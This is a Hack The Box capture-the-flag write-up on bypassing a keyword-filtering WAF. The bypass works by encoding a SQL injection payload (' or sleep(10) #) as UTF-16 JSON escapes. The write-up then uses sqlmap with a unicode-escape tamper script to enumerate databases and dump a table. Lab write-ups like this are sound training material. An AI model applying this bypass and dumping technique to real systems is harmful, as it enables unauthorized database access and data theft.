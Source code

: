 # Waf Waf Challenge HTB

<img src="img/hackthebox.png">

When we open the page we get:

<img src="img/page.png">

We can see what looks like the ```index.php``` of the page.
In the script you can see that a SQL database is queried and the input of POST requests is filtered using a basic WAF (Web Application firewall), implemented through the ```waf()``` function of the ```db``` class.

<img src="img/pagehigh.png">

The script ends immediately when at least one of the following characters or strings is found
in the input string:

```
[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having
```

The check is not case sensitive.
So this looks like vulnerable to a SQL injection.

# SQL Injection

Checking what happens when we make a request with one of the words that are filtered by the waf:

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}
```

A subsequent json_decode is performed on the input string, for what the script expects to receive JSON objects.
Because decoding the string happens after the function checks waf () we can take advantage of the fact that in JSON it is possible to encode characters in UTF-16, which when decoding the JSON, will return to the format original.
Let's do a test:

Para ello haremos una peticion POST con curl la cual capturaremos con Burp Suite (```http://127.0.0.1:8080 ``` es la dirección y puerto del proxy de burp suite)

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080  
```

<img src="img/burp.png">

Once the request is captured, we will send it to the repeater

Where we send it and we appreciate the 149 bytes of the response

<img src="img/burp2.png">

Later we will test if we can evade the waf with a sqli payload, we will use the following payload ```' or sleep(10) #``` which we will encode it to UTF-16 since as we saw previously we will proceed to a ```json_decode ()```.

I use this [unicode converter](https://www.branah.com/unicode-converter)

<img src="img/unicode.png">

Now we load the payload in the request and send it:

<img src="img/burp3.png">

Where we can see that we get a 200 and that there are still 149 response bytes.

Now we will copy the request to a file putting ```*``` where we want the payload to be loaded.

<img src="img/petition.png">

# Blind SQL Injection

To obtain information in this case we will use a Blind SQL Injection and we will execute the following ```sqlmap``` command we should get the databases available:

```bash
─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql
```

<img src="img/databases.png">

We have five databases db_m8452, info_schema, mysql, performance_schema, sys.
Let's extract the list of tables from the database. db_m8452:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql
```


<img src="img/dbtables.png">

The db_m8452 database has two tables, ```definitely_not_a_flag``` and ```notes```. Now let's dump the contents of the table ```definitely_not_a_flag```:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql
```

many payloads later .. we got the flag.

<img src="img/dumpflag.png">

Byee
